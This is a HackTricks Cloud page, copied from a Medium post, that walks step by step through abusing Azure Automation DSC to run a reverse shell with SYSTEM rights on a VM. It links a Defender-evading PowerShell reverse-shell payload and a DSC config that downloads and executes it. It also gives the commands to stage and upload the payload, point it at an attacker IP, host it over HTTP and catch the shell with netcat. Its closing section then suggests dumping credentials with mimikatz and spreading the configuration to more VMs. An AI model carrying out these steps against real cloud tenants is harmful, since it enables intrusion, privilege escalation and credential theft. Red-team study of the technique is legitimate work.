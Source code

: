# Az - State Configuration RCE

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

**This post was copied from** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Remote Server (C2) Infrastructure Preparation <a href="#f0fa" id="f0fa"></a>

I will be hosting a stripped-down version of the Nishang Invoke-PowerShellTcp.ps1 payload from the remote server “40.84.7.74”, which is the Kali box. The payload name will be “RevPS.ps1”. To prevent the Nishang script getting deleted by Windows Defender for any reason (maybe you’d rather drop the file to disk) I have a lightweight version here that you can use which will bypass Defender: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1). This will be hosted by a simple Python Simple Server on the Kali box.

### Step 1 — Create Files <a href="#89de" id="89de"></a>

We’ll need to create another DSC configuration file. A template can be downloaded here: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1). This config file will use the same file-write function that we previously used. This time, the contents include code to download and execute a payload from our remote server. Also, we’re using a scheduled-task function available from the _ComputerManagementDsc_ module. The scheduled-task function will be the key role in execution and providing us with SYSTEM privileges later on.

We’ll also download a script which will be used to publish our configuration to the VM. This is located here: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).

These files will serve as a template. **You’ll need to fill in the variable names and parameters with what you’re using**. This includes the resource names, file paths, and the external server/payload names that you’re using. Please refer to the comments in the code.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

### Step 2 — Zip Configuration File <a href="#c2c2" id="c2c2"></a>

With our two files created, we’ll zip the **‘reverse\_shell\_config.ps1’** file so it can be sent to the Storage Account

```
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```

<figure><img src="../../../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

### Step 3 — Set Storage Context & Upload <a href="#bed9" id="bed9"></a>

Again, we’ll setup the context of our Storage Account which I’ve already done. I already have a container named ‘**azure-pentes**t’ so this is where I’ll be publishing mine:

```
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```

<figure><img src="../../../../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>

### Step 4 — Prep Kali Box <a href="#20fb" id="20fb"></a>

In our Kali box, we can simply _wget_ our PowerShell payload. The raw reverse-shell script is located here: [https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1](https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1).

```
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```

<figure><img src="../../../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

We need to edit the reverse-shell script by adding our parameters in, so the Windows VM knows where to connect to once it’s executed. In my case I add following:

```
RevPShell -Reverse 40.84.7.73 443
```

<figure><img src="../../../../.gitbook/assets/image (2) (3).png" alt=""><figcaption></figcaption></figure>

### Step 5 — Publish Configuration File <a href="#9ad6" id="9ad6"></a>

Now we’ll run our configuration file. I have mine setup to be published to the Desktop for a better visual, however it can be published just about anywhere. After a couple of minutes, we’ll see that the reverse-shell script has been published!

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Step 6 — Host Payload and Setup Listener <a href="#c55f" id="c55f"></a>

Once we publish the configuration, we can concurrently start a Python SimpleHTTPServer over port 80 to host the payload, along with a netcat listener in order to catch the connection:

```
sudo python -m SimpleHTTPServer 80sudo nc -nlvp 443
```

We see that the scheduled task has run and our payload was retrieved and executed in memory with **SYSTEM** level privileges!

<figure><img src="../../../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

### Wrapping Up <a href="#1ec2" id="1ec2"></a>

This now opens the door for many possibilities. Since we have a shell running as **SYSTEM,** we can dump credentials with mimikatz (potentially risky depending on how mature the EDR is for cloud resources). If you dump creds , there's a good chance that these can be reused elsewhere across different resources. Lastly, a big takeaway is that instead of limiting this to one VM, you now have the ability to potentially apply this configuration across multiple VM’s.

On that note, this concludes our Azure Automation DSC adventures! I hope you had fun, learned a lot and continue to expand with your own creativity.

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

